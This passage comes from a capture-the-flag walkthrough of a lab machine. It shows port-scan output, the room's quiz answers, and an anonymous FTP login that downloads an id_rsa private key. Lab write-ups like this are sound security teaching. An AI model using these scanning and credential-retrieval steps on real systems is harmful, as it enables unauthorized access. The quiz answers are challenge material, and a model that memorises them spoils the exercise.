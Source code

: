 ```bash
[~] The config file is expected to be at "/home/ehogue/.rustscan.toml" 
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.48.223:22  
Open 10.10.48.223:30024 

...

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
30024/tcp open  ftp     syn-ack vsftpd 3.0.3
```

There are two ports opened on the machine:
* 22 running ssh
* 30024 running ftp

This gave me the answers to the questions of this section.

```
How many ports are open?
2

What service is running on the lowest open port?
ssh

What non-standard port is open?
30024

What service is running on the non-standard port?
ftp
```


## Task 3 - Foothold

I tried connecting to the FTP server. It accepted anonymous logins. Once connected, I downloaded the two files I found on it.

```bash
$ ftp target 30024
Connected to target.
220 (vsFTPd 3.0.3)
Name (target:ehogue): anonymous

331 Please specify the password.
Password:

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 ftpftp 1743 Mar 23 20:03 id_rsa
-rw-r--r-- 1 ftpftp78 Mar 23 20:09 note.txt
226 Directory send OK.

ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
226 Transfer complete.
```
